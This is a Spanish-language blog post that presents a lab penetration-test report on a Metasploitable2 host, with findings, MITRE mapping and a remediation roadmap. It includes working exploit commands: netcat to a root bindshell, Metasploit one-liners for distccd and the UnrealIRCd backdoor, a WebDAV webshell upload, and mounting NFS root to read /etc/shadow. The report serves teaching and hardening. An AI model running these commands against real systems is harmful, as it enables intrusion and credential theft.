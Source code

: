 ```yaml
---

title: "Informe de Pentesting – laboratorio"
date: "2025-08-27"
summary: "Pentest de laboratorio sobre 192.168.0.52 (Metasploitable2): RCE vía distccd, backdoor UnrealIRCd, WebDAV con ejecución, NFS/SMB inseguros y credenciales expuestas."
tags: \["pentesting","owasp-top10","metasploitable2","rce","nfs","smb"]
draft: false
authors: \["default"]
seoTitle: "Informe de Pentesting (Laboratorio): RCE, WebDAV, SMB, NFS en 192.168.0.52"
metaDescription: "Pentest en Metasploitable2 con RCE (distccd, UnrealIRCd), WebDAV con ejecución, NFS/SMB inseguros y hallazgos críticos. Incluye PoC, métricas y roadmap."
canonicalUrl: "[https://cobalto-sec.tech/blog/informe-de-pentesting-laboratorio](https://cobalto-sec.tech/blog/informe-de-pentesting-laboratorio)"
cover: "/static/images/informe-de-pentesting-laboratorio/cover.png"
coverAlt: "Informe de pentest: RCE, WebDAV, SMB y NFS en 192.168.0.52 (laboratorio)."
ogImage: "/static/images/informe-de-pentesting-laboratorio/cover.png"
noindex: false
lastmod: "2025-08-28"
readingTime: "7 min"
contentType: "report"
related: \[]
------------

> **Contexto**: ejercicio de pentesting controlado sobre **Metasploitable2** (192.168.0.52). Resultados con fines educativos y de **hardening**.
> **Interno**: consulta más casos en [#pentesting](/tags/pentesting) y [#owasp-top10](/tags/owasp-top10).

## PoCs destacados (extracto ejecutable)

```bash
# Bindshell root
nc 192.168.0.52 1524

# Telnet (credenciales descubiertas)
telnet 192.168.0.52 23

# NFS mount
showmount -e 192.168.0.52
sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock
ls -la /mnt/nfs/etc

# distccd RCE (Metasploit)
msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run'

# WebDAV PUT (cadaver)
cadaver http://192.168.0.52/dav
put shell.php
```

**Referencias**

* OWASP Top 10 2021: [A05 Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/), [A06 Vulnerable and Outdated Components](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/).
* NVD: [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687), [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075), [CVE-2012-2122](https://nvd.nist.gov/vuln/detail/CVE-2012-2122).

---
```


## Informe original (sin editar)

Para preservar la trazabilidad, se incluye el texto íntegro del reporte dentro de un bloque preformateado.

```text
Informe de Pentesting – laboratorio Versión: 1.1 Fecha: 2025-08-27 Cliente: laboratorio Alcance resumido Hosts: 192.168.0.52 Servicios: TCP/UDP estándar en host objetivo Ambiente: Controlado / autorizado Executive Dashboard Severidad Nº Hallazgos Crítico 4 Alto 5 Medio 1 Bajo 0 Tiempo hasta compromiso inicial: 1h 1m 40s Nº credenciales obtenidas: 6 Nº evidencias recolectadas: 29 Nº puertos expuestos: 12 Riesgo global: Alto Resumen Ejecutivo El objetivo 192.168.0.52 (Metasploitable2) expone múltiples se…ciones web vulnerables (DVWA, Mutillidae, phpMyAdmin, Tomcat). Se lograron múltiples compromisos exitosos contra el host 192.…ión remota de comandos vía distccd vulnerable (CVE-2004-2687). En un entorno real, esto habilitaría ataques de ransomware, exfiltración de bases de datos y pivoting lateral. Resumen Técnico Servicios destacados: 445/tcp, 2049/tcp, 80/tcp, 21/tcp, 6667/tcp, 3632/tcp, 23/tcp, 512/tcp, 513/tcp, 514/tcp, 3306/tcp, 5432/tcp Hallazgos clave: 10 Explotos validados: 3 Sesiones establecidas: 3 Credenciales recuperadas: 6 Metodología Se siguió PTES, con referencia a OWASP/NIST. Clasificación de Riesgos por Hallazgo Hallazgo Severidad Justificación Bindshell root (1524/tcp) expuesto Crítico Servicio bindshell en 1524/tcp otorga shell con privilegios root sin autenticación. Telnet sin cifrado con credenciales válidas Alto Servicio Telnet permite acceso con usuario válido (user:***). distccd vulnerable a RCE (CVE-2004-2687) Crítico El demonio distccd 3632/tcp ejecuta comandos arbitrarios en el host. NFS exporta / sin restricciones Alto Export de NFS permite montar la raíz del sistema y leer /etc/shadow. SMB (Samba 3.0.20) con shares anónimos RW Alto Samba permite acceso anónimo a recursos compartidos con permisos de lectura/escritura. HTTP/WebDAV permite PUT y ejecución de PHP Crítico Apache 2.2.8 con DAV/2 permite subir y ejecutar scripts en /dav. UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) Crítico Versión vulnerable con backdoor remoto preautenticado. Servicios r- (rlogin/rexec) inseguros expuestos Alto Servicios legacy aceptan autenticación débil y pueden permitir ejecución remota. MySQL 5.0.51a vulnerable (CVE-2012-2122) Alto Bug de autenticación permite bypass 1/256 peticiones. PostgreSQL 8.3.x con posibles credenciales por defecto Medio Servicio expuesto sin hardening; susceptibles credenciales por defecto. Hallazgos y PoC Bindshell root (1524/tcp) expuesto Descripción: Servicio bindshell en 1524/tcp otorga shell con privilegios root sin autenticación. Impacto: Compromiso total del host con privilegios de administrador. PoC: nc 192.168.0.52 1524 Evidencia asociada: artefacto sha256 ..(no hash en fingerprint) Telnet sin cifrado con credenciales válidas Descripción: Servicio Telnet permite acceso con usuario válido (user:***). Impacto: Acceso interactivo remoto; exposición de credenciales en texto claro. PoC: telnet 192.168.0.52 23 Evidencia asociada: artefacto sha256 ..(del fingerprint 23/tcp) distccd vulnerable a RCE (CVE-2004-2687) Descripción: El demonio distccd 3632/tcp ejecuta comandos arbitrarios en el host. Impacto: Ejecución remota de comandos (RCE) con privilegios del servicio. PoC: msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run' Evidencia asociada: artefacto sha256 ..(fingerprint 3632/tcp) NFS exporta / sin restricciones Descripción: Export de NFS permite montar la raíz del sistema y leer /etc/shadow. Impacto: Exfiltración de credenciales y archivos sensibles; posibilidad de inyección de llaves. PoC: showmount -e 192.168.0.52 sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock ls /mnt/nfs/etc Evidencia asociada: artefacto sha256 ..(fingerprint 2049/tcp) SMB (Samba 3.0.20) con shares anónimos RW Descripción: Samba permite acceso anónimo a recursos compartidos con permisos de lectura/escritura. Impacto: Escritura/ejecución arbitraria en rutas compartidas; posible escalamiento. PoC: smbclient -N -L //192.168.0.52 smbclient -N //192.168.0.52/tmp -c 'ls' Evidencia asociada: artefacto sha256 ..e97faff1 HTTP/WebDAV permite PUT y ejecución de PHP Descripción: Apache 2.2.8 con DAV/2 permite subir y ejecutar scripts en /dav. Impacto: Ejecución remota de código vía carga de webshell. PoC: cadaver http://192.168.0.52/dav # autenticación no requerida en laboratorio put shell.php Evidencia asociada: artefacto sha256 ..(fingerprint 80/tcp) UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) Descripción: Versión vulnerable con backdoor remoto preautenticado. Impacto: RCE preautenticado. PoC: msfconsole -q -x 'use exploit/unix/irc/unreal_ircd_3281_backdoor; set RHOSTS 192.168.0.52; run' Evidencia asociada: artefacto sha256 ..(fingerprint 6667/tcp) Servicios r- (rlogin/rexec) inseguros expuestos Descripción: Servicios legacy aceptan autenticación débil y pueden permitir ejecución remota. Impacto: Compromiso de cuentas a través de autenticación débil o confianza host. PoC: rlogin 192.168.0.52 -l user # según configuración MySQL 5.0.51a vulnerable (CVE-2012-2122) Descripción: Bug de autenticación permite bypass 1/256 peticiones. Impacto: Acceso a base de datos; posible lectura/escritura de datos sensibles. PoC: mysql -h 192.168.0.52 -u root # repetir intentos Evidencia asociada: artefacto sha256 ..acaef38a PostgreSQL 8.3.x con posibles credenciales por defecto Descripción: Servicio expuesto sin hardening; susceptibles credenciales por defecto. Impacto: Acceso a BD y datos sensibles. PoC: psql -h 192.168.0.52 -U postgres -p 5432 Evidencia asociada: artefacto sha256 ..1be330b9 Timeline del ataque 2025-08-27T12:07:42: Inicio recon 2025-08-27T13:09:22: Sesión bindshell-root en 192.168.0.52:1524 (root) 2025-08-27T13:11:24: Sesión telnet-user en 192.168.0.52:23 (user) 2025-08-27T13:12:56: Intento exploit CVE-2004-2687 en 192.168.0.52:3632 -> success 2025-08-27T13:13:00: Sesión distccd-rce en 192.168.0.52:3632 (unknown) Kill Chain / MITRE ATT&CK mapping Fase Técnica ID Reconocimiento Network Service Scanning T1046 Acceso inicial Exploitation of Remote Services T1210 Acceso inicial Valid Accounts (Telnet) T1078 Ejecución Command and Scripting Interpreter T1059 Movimiento lateral Remote Services T1021 Exfiltración Exfiltration Over Unencrypted/Unencrypted Protocol T1041 Impacto Data Encrypted for Impact (potencial) T1486 Compliance mapping Marco Control/Sección Relación OWASP Top 10 2021 A05: Security Misconfiguration Servicios inseguros (Telnet, NFS, SMB) OWASP Top 10 2021 A06: Vulnerable and Outdated Components distccd, UnrealIRCd, Apache 2.2.8 OWASP Top 10 2021 A01: Broken Access Control Shares anónimos, NFS / ISO/IEC 27001:2022 A.8, A.9, A.12, A.13 Gestión de activos, control de acceso, hardening, protección de comunicaciones PCI DSS v4.0 1, 2.2, 6.2, 8 Segmentación, configuraciones seguras, parches, gestión de credenciales Matriz de riesgo (probabilidad vs impacto) Críticos: Probabilidad Alta / Impacto Muy Alto Altos: Probabilidad Alta / Impacto Alto Medios: Probabilidad Media / Impacto Medio Métricas clave Time to Compromise (primera sesión): 1h 1m 40s Nº credenciales: 6 Nº evidencias: 29 Nº servicios expuestos: 12 Mapa de afectación Bindshell root (1524/tcp) expuesto → 192.168.0.52 → Impacto: Compromiso total del host con privilegios de administrador. Telnet sin cifrado con credenciales válidas → 192.168.0.52 → Impacto: Acceso interactivo remoto; exposición de credenciales en texto claro. distccd vulnerable a RCE (CVE-2004-2687) → 192.168.0.52 → Impacto: Ejecución remota de comandos (RCE) con privilegios del servicio. NFS exporta / sin restricciones → 192.168.0.52 → Impacto: Exfiltración de credenciales y archivos sensibles; posibilidad de inyección de llaves. SMB (Samba 3.0.20) con shares anónimos RW → 192.168.0.52 → Impacto: Escritura/ejecución arbitraria en rutas compartidas; posible escalamiento. HTTP/WebDAV permite PUT y ejecución de PHP → 192.168.0.52 → Impacto: Ejecución remota de código vía carga de webshell. UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) → 192.168.0.52 → Impacto: RCE preautenticado. Servicios r- (rlogin/rexec) inseguros expuestos → 192.168.0.52 → Impacto: Compromiso de cuentas a través de autenticación débil o confianza host. MySQL 5.0.51a vulnerable (CVE-2012-2122) → 192.168.0.52 → Impacto: Acceso a base de datos; posible lectura/escritura de datos sensibles. PostgreSQL 8.3.x con posibles credenciales por defecto → 192.168.0.52 → Impacto: Acceso a BD y datos sensibles. Tabla de evidencias Archivo Descripción SHA (últ. 8) network_discovery_recon-20250827T120459-13275.nmap Discovery de red local ..b91b0602 quick_tcp_recon-20250827T120459-13275.nmap Quick TCP top-1000 192.168.0.52 ..aa276ecf tcp_services_recon-20250827T120459-13275.nmap Detección de servicios/OS - 192.168.0.52 ..06ac3ec4 network_map.json scan ..6f25540f … (total 29 evidencias, ver índice completo en artefactos) Tabla de credenciales recuperadas (ofuscadas) Servicio Host Usuario Password telnet 192.168.0.52 user *** bindshell 192.168.0.52 root (none) local 192.168.0.52 msfadmin *** local 192.168.0.52 klog *** local 192.168.0.52 service *** (otros) 192.168.0.52 (varios) *** Recomendaciones priorizadas (roadmap) Inmediato (0-30 días) Deshabilitar Telnet y r-services; migrar a SSH. Cerrar puerto 1524 y eliminar backdoors. Parchar/aislar distccd y UnrealIRCd. Revocar/rotar todas las credenciales expuestas. Restringir NFS a export controlado; eliminar export de /. Auditar y restringir shares SMB anónimos. Mediano (30-90 días) Actualizar Apache/Tomcat y deshabilitar WebDAV si no es requerido. Implementar gestión de vulnerabilidades y escaneo continuo. Segmentar DB (3306/5432) a redes internas. Implementar MFA y políticas de contraseñas robustas. Largo (>90 días) Hardening base (CIS). Centralizar registros y detección (SIEM). Ejercicios de Red Team/Purple Team periódicos. Impacto (CIA triad + riesgo global) Confidencialidad: Comprometida (lectura de /etc/shadow, credenciales). Integridad: Riesgo alto (RCE, shares RW). Disponibilidad: Riesgo medio (posibles DoS colaterales). Riesgo global: Alto Limitaciones y alcance recon: Reconocimiento de red completo permitido, pero el único objetivo de explotación es 192.168.0.52 scan: NSE ausentes: rsh-* y pgsql-info; se usó fingerpr…V y scripts alternativos (rlogin-brute, rexec-brute, telnet-*). scan: DB Postgres: solo pgsql-brute disponible; sin pgsql-info. scan: La consola de escaneo se interrumpió; se reanudó con scripts alternativos. scan: Fallo en generación de nse_manifest: heredoc Python/argv; se reemplazó por variante bash con find+sha256sum. scan: Fallo en generación de nse_manifest: heredoc Python/argv; se reemplazó por variante bash con find+sha256sum. scan: Consola se cerró durante generación de manifest/updates; se reemplazó por finalize_scan.sh sin set -e. Próximos pasos (incluyendo retesting) Aplicar mitigaciones y solicitar retesting en 2 semanas. Validar cierre de puertos y cambios de configuración. Revisar logs de accesos no autorizados durante la ventana del pentest. Glosario de términos técnicos RCE: Remote Code Execution. NFS/SMB: Protocolos de compartición de archivos. WebDAV: Extensión de HTTP para edición remota. Bindshell: Servicio que expone un shell en un puerto TCP. Conclusión final La combinación de RCEs, backdoors y servicios inseguros permite el compromiso total del host 192.168.0.52. La exposición de un bindshell root y la posibilidad de subir webshells vía WebDAV requieren remediación inmediata y cierre de superficies de ataque. Anexo: Script PoC consolidado (laboratorio) # Bindshell root nc 192.168.0.52 1524 # Telnet (credenciales descubiertas) telnet 192.168.0.52 23 # user: (REDACTED) # NFS mount showmount -e 192.168.0.52 sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock ls -la /mnt/nfs/etc # distccd RCE (Metasploit) msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run' # WebDAV PUT (cadaver) cadaver http://192.168.0.52/dav put shell.php
```

---

## Notas del editor (highlights)

* **Riesgo global:** Alto. **Time-to-compromise:** 1h 1m 40s.
* Superficies críticas: **distccd RCE**, **UnrealIRCd backdoor**, **WebDAV PUT + ejecución**, **NFS/SMB inseguros**, **bindshell root**.
* **Acciones inmediatas:** deshabilitar Telnet/r-services, cerrar 1524/tcp, parchar/aislar distccd y UnrealIRCd, restringir NFS y shares SMB, rotar credenciales.

## FAQ corta

* **¿Por qué es crítico WebDAV con ejecución?** Permite carga de **webshell** y RCE sin controles adicionales.
* **¿Por qué mantener DB internas?** Exponer 3306/5432 facilita ataques de fuerza bruta y exfiltración.

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "BlogPosting",
  "headline": "Informe de Pentesting – laboratorio",
  "datePublished": "2025-08-27",
  "dateModified": "2025-08-28",
  "author": [{"@type":"Person","name":"Cobalto Sec"}],
  "image": "/static/images/informe-de-pentesting-laboratorio/cover.png",
  "mainEntityOfPage": "https://cobalto-sec.tech/blog/informe-de-pentesting-laboratorio",
  "description": "Pentest en Metasploitable2 con RCE (distccd, UnrealIRCd), WebDAV con ejecución, NFS/SMB inseguros y hallazgos críticos."
}
</script>
